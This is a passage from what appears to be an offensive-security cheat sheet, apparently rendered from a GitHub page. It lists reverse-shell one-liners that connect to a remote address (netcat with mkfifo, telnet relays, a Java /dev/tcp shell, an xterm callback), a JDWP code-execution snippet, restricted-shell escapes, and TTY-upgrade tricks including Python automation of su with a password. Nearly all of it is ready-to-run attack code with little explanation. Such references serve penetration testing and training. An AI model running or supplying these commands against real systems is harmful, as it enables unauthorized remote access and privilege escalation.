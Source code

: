 ```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 1234 > /tmp/f
```

#### Netcat without -e \#2

```bash
nc localhost 443 | /bin/sh | nc localhost 444
telnet localhost 443 | /bin/sh | telnet localhost 444
```

#### Java

```bash
r = Runtime.getRuntime(); p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[]); p.waitFor();
```

#### XTerm

```bash
xterm -display 10.0.0.1:1
```

### JDWP RCE

```java
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("whoami").getInputStream())).readLine())
```

### Working with Restricted Shells

```bash
# rare cases
ssh bill@localhost ls -l /tmp
```

```bash
nice /bin/bash
```

### Interactive TTY Shells

```bash
/usr/bin/expect sh
```

```python
python -c ‘import pty; pty.spawn(“/bin/sh”)’
# execute one command with su as another user if you do not have access to the shell. Credit to g0blin.co.uk
python -c 'import pty,subprocess,os,time;(master,slave)=pty.openpty();p=subprocess.Popen(["/bin/su","-c","id","bynarr"],stdin=slave,stdout=slave,stderr=slave);os.read(master,1024);os.write(master,"fruity\n");time.sleep(0.1);print os.read(master,1024);'
```

### Uploading/POSTing Files Through WWW Upload Forms
